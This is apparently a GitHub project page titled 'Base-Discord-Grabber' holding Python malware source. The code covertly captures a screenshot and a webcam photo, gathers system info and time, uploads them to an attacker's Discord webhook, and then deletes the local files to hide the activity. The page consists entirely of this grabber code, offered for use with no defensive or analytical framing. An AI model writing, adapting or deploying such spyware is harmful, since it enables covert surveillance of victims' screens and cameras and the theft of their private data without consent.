 # Base-Discord-Grabber

The Code

import platform
import datetime
import subprocess
import cv2
import pyautogui
import requests
import os
from discord_webhook import DiscordWebhook

def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot_path = "screenshot.png"
    screenshot.save(screenshot_path)
    return screenshot_path

def capture_webcam_image():
    # Open the default camera (usually the built-in webcam)
    cap = cv2.VideoCapture(0)

    # Check if the camera opened successfully
    if not cap.isOpened():
        print("Error: Could not open camera.")
        return None

    # Capture frame-by-frame
    ret, frame = cap.read()

    # If frame is read correctly, save it as image
    if ret:
        cv2.imwrite("webcam_image.jpg", frame)
        print("Webcam image captured successfully.")

    # Release the camera
    cap.release()
    cv2.destroyAllWindows()
    return "webcam_image.jpg"

def get_system_info():
    os_info = platform.platform()
    return os_info

def get_current_time():
    current_time = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    return current_time

def send_discord_message(message, screenshot_path, webcam_image_path, webhook_url):
    current_time = get_current_time()
    os_info = get_system_info()
    message_content = f"Time: {current_time}\nOS: {os_info}"
    
    files = {'file': open(screenshot_path, 'rb'), 'webcam_image': open(webcam_image_path, 'rb')}
    data = {'content': message_content}
    
    response = requests.post(webhook_url, data=data, files=files)
    return response

def main():
    webhook_url = "WEBHOOK HERE"
    screenshot_path = capture_screen()
    webcam_image_path = capture_webcam_image()
    
    response = send_discord_message("Screenshot and webcam image captured!", screenshot_path, webcam_image_path, webhook_url)
    
    if response.status_code == 200:
        print("Message sent successfully")
    else:
        print("Failed to send message")

    # Remove the temporary files after sending
    os.remove(screenshot_path)
    if webcam_image_path:
        os.remove(webcam_image_path)



